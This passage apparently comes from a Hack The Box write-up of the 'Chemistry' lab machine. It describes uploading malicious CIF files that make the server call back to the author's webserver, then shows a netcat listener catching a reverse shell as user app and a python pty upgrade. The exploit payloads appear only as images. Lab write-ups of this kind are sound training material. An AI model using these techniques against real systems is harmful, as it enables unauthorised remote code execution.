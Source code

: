 - In this exploit, we make a curl to our webserver to check if there is a callback from the server:
![exploit1](/assets/blog/htb-chemistry/exploit1.png)

- Upon trying to view the document, we observe an internal server error. Checking my webserver i received a callback hence code execution on this machine:

![web_callback](/assets/blog/htb-chemistry/web_callback.png)

### Shell as app

- We created 3 CIF files containing a stager, a file that made the [shell.sh](http://shell.sh) executable, and the third file that executes the shell.sh:

```bash
[🔴][Oct 20, 2024 - 20:57:39 (CEST)] exegol-htb chemistry # rlwrap -cAr nc -lvnp 443
Ncat: Version 7.93 ( https://nmap.org/ncat )
Ncat: Listening on :::443
Ncat: Listening on 0.0.0.0:443

Ncat: Connection from 10.129.124.136.
Ncat: Connection from 10.129.124.136:34542.
bash: cannot set terminal process group (1052): Inappropriate ioctl for device
bash: no job control in this shell
app@chemistry:~$
app@chemistry:~$
app@chemistry:~$ python3 -c 'import pty; pty.spawn("/bin/bash")'
python3 -c 'import pty; pty.spawn("/bin/bash")'
app@chemistry:~$ ls
ls
app.py  instance  shell.sh  static  templates  uploads
app@chemistry:~$
```
